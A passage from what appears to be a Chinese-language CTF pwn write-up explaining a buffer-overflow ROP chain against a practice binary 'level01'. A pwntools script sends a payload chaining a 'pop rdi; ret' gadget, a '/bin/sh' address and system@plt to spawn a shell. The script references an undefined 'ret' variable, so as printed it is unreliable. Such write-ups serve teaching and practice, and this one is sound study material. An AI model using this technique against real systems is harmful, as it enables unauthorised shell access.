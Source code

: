 ![image-20220318184024535](Self-help_Clown.assets/image-20220318184024535.png)

最重要的一步就是rop链的构造, 溢出覆盖了buf和rbp, 要考虑函数返回地址要覆盖为什么. 想一个问题, 我们肯定是先要将参数给准备好了, 才能去执行函数, 所以这里的返回地址应该先填为`pop rdi;ret`地址, 将"/bin/sh"地址传入寄存器, 再通过`pop rdi;ret`的ret指令返回执行system@plt(也就是执行system)

#### Exploit

```python
from pwn import*
o = process('./level01')
elf = ELF('./level01')
system_plt = elf.plt['system']	# 通过pwntools的elf模块解析出system@plt的地址
bin_sh = 0x0000000000400644
pop_rdi = 0x0000000000400623
payload = 'a'*0x18	# 覆盖buf和rbp
payload += p64(pop_rdi) + p64(bin_sh) + p64(ret)	# 将/bin/sh传入rdi
payload += p64(system_plt)	# ret返回执行system@plt
o.sendline(payload)
o.interactive()
```

![image-20220318190037261](Self-help_Clown.assets/image-20220318190037261.png)
